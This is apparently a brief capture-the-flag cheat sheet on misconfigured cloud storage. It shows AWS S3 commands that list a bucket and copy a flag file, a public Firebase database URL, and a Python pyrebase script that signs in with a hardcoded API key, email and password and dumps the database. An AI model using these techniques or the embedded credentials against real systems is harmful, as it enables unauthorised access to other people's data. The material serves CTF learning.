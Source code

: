 ## AWS

- **Bucket listing access enabled**

  ```
  aws s3 ls s3://domain.mn
  aws s3 cp s3://domain.mn/flag.png flag.png
  ```

## Firebase

- **View json file**
  - https://app3-7d107-default-rtdb.firebaseio.com/.json

- [https://github.com/shivsahni/FireBaseScanner](https://github.com/shivsahni/FireBaseScanner)

- **Connect and view files**
  ```py
  import pyrebase
  import requests
  
  config = {
    "apiKey": "AIzaSyAXsK0qsx4RuLSA9C8IPSWd0eQ67HVHuJY",
    "authDomain": "firestorm-9d3db.firebaseapp.com",
    "databaseURL": "https://firestorm-9d3db-default-rtdb.firebaseio.com",
    "storageBucket": "firestorm-9d3db.appspot.com",
    "projectId": "firestorm-9d3db"
  }
  firebase = pyrebase.initialize_app(config)
  
  auth = firebase.auth()
  email = "TK757567@pwnsec.xyz"
  password = "C7_dotpsC7t7f_._In_i.IdttpaofoaIIdIdnndIfC"
  user = auth.sign_in_with_email_and_password(email, password)
  
  db = firebase.database()
  
  print(db.get(user['idToken']).val()) 
  ```
